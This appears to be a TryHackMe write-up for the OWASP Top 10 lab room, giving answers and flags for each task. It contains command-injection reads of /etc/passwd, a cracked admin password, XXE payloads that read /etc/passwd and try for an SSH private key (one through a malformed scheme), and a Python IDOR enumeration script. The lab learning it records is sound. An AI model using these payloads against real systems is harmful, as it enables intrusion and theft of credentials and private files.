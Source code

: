TryHackMe | OWASP Top 10

 > Caleb C | 2022-2-17

------------

(OWASP 10)[https://tryhackme.com/room/owasptop10]

Tips on boxes
Commands to try

Linux
```bash
whoami
id
ifconfig/ip addr
uname -a
ps -ef
```
Windows
```cmd
whoami
ver
ipconfig
tasklist
netstat -an
```
## Severity 1 - Command Injection Practical

1. What strange text file is in the website root directory?
 > ls
 > drpepper.txt

2. How many non-root/non-service/non-daemon users are there?
 > cat /etc/passwd
 > 0

3. What user is this app running as?
 > whoami
 > www-data

4. What is the user's shell set as?
 > cat /etc/passwd
 > /usr/sbin/nologin

5. What version of Ubuntu is running?
 > lsb_release -a
 > 18.04.4

6. Print out the MOTD.  What favorite beverage is shown?
 > cat /etc/update-motd.d/00-header
 > Dr Pepper

## Severity 2 - Broken Authentication Practical 

1. What is the flag that you found in darren's account?
 > fe86079416a21a3c99937fea8874b667

2. What is the flag that you found in arthur's account?
 > d9ac0f7db4fda460ac3edeb75d75e16e

## Severity 3 - Sensitive Data Exposure (intro)


Have a look around the webapp. The developer has left themselves a note indicating that there is sensitive data in a specific directory. 

1. What is the name of the mentioned directory?
 > /assets
This was found by looking in the chrome dev tools to find a HTML comment of where the directory was located.

2. Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
 > webapp.db
Located at IP/assets

3. Use the supporting material to access the sensitive data. What is the password hash of the admin user?
 > 6eea9b7ef19179a06954edd0f6c05ceb
After downloading the webapp.db, query the file with `file webapp.db` to find it is a SQlite3 Database file.
`sqlite > .tables
sqlite > PRAGMA table_info(users);
sqlite > SELECT * from users`

4. What is the admin's plaintext password?
 > qwertyuiop
Use `cracksation` website to enter weak MD5 hashed password from `webapp.db`

5. Login as the admin. What is the flag?
 > THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}

## Severity 4 - XML External Entity

Every XML document mostly starts with what is known as XML Prolog.
`<?xml version="1.0" encoding="UTF-8"?>`

Every XML document must contain a `ROOT` element. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```


In the above example the `<mail>` is the ROOT element of that document and `<to>, <from>, <subject>, <text>` are the children elements. If the XML document doesn't have any root element then it would be considered wrong or invalid XML doc.

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named `note.dtd` with the following content:

`<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.

Ex: Below is given an XML document that uses note.dtd
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```
 >!DOCTYPE note -  Defines a root element of the document named note
 >!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
 >!ELEMENT to - Defines the to element to be of type "#PCDATA"
 >!ELEMENT from - Defines the from element to be of type "#PCDATA"
 >!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
 >!ELEMENT body - Defines the body element to be of type "#PCDATA"

The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
 ```

We can also use XXE to `read` some file from the system by defining an ENTITY and having it use the `SYSTEM` keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

Personal try at reading Falcons home directory
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'ls:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

## Severity 5 - Broken Access Control

IDOR, or Insecure Direct Object Reference, is the act of exploiting a misconfiguration in the way user input is handled, to access resources you wouldn't ordinarily be able to access. IDOR is a type of access control vulnerability.

For example, let's say we're logging into our bank account, and after correctly authenticating ourselves, we get taken to a URL like this https://example.com/bank?account_number=1234. On that page we can see all our important bank details, and a user would do whatever they needed to do and move along their way thinking nothing is wrong.

There is however a potentially huge problem here, a hacker may be able to change the account_number parameter to something else like 1235, and if the site is incorrectly configured, then he would have access to someone else's bank information.

```python
#!/usr/bin/env python3

import requests

number = range(100)

for num in number:
    ip = "http://10.10.206.79/note.php?note="
    ip = ip + str(num)
    r = requests.get(ip)
    print(ip)
    print(r.text)
```